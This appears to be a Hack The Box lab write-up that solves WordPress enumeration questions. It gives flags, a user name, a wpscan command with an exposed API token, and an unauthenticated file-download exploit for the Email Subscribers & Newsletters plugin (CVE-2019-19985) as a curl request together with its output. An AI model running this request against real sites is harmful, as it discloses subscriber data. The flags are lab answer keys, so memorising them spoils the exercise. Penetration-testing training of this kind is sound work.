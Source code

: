 Answer:
```bash
HTB{d1sabl3_d1r3ct0ry_l1st1ng!}
```



Identify the only non-admin WordPress user. (Format: <first-name> <last-name>):
```bash
Charlie Wiggins
```


Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download:
```bash
wpscan --url http://blog.inlanefreight.local/ --api-token VyjB9rxyQz0cFqLA14dKJ8aLwbZeNEleBazHsRS1J8o
```

Result scan:
```bash
Title: Email Subscribers & Newsletters < 4.2.3 - Multiple Issues
 |     Fixed in: 4.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/a0764617-6142-4ef7-94f9-1fb923e81e94
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19985

CVE-2019-19985
The WordPress plugin, Email Subscribers & Newsletters, before 4.2.3 had a flaw that allowed unauthenticated file download with user information disclosure.

https://packetstorm.news/files/id/158563:
WordPress Email Subscribers and Newsletters 4.2.2 File Disclosure
 Exploit Title: WordPress Plugin Email Subscribers & Newsletters 4.2.2 - Unauthenticated File Download
 ```
 ```bash
curl [BASE_URL]'/wp-admin/admin.php?page=download_report&report=users&status=all'
EXAMPLE: curl 'http://127.0.0.1/wp-admin/admin.php?page=download_report&report=users&status=all'
```

We can get the flag according to the method provided by the link:
```bash
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'
```

Result:
```bash
"First Name", "Last Name", "Email", "List", "Status", "Opt-In Type", "Created On"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Test", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Main", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
```

Flag:
```bash
HTB{unauTh_d0wn10ad!}
```
